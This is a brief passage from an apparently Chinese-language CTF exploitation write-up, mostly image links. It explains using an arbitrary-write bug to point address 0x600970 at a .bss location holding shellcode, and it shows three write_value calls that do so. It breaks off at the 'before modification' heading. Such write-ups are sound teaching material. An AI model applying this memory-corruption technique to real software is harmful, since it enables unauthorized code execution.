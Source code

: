 [![](assets/1706254573-45ea7c315f2ba8534393e2334b438057.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151344-468863da-bb51-1.png)

[![](assets/1706254573-04bdb4355ba79a23f6779deae08e3bac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151349-49b35e2a-bb51-1.png)  
我们去修改 0x600970 地址即可，这里是因为可以无限任意写，所以就先去写一个 bss 段的地址，然后在地址上布置好 shellcode，最后退出执行即可

```plain
write_value(b"0x600970", b"0x70") 
write_value(b"0x600971", b"0x0a")   
write_value(b"0x600972", b"0x20")
```

修改前：
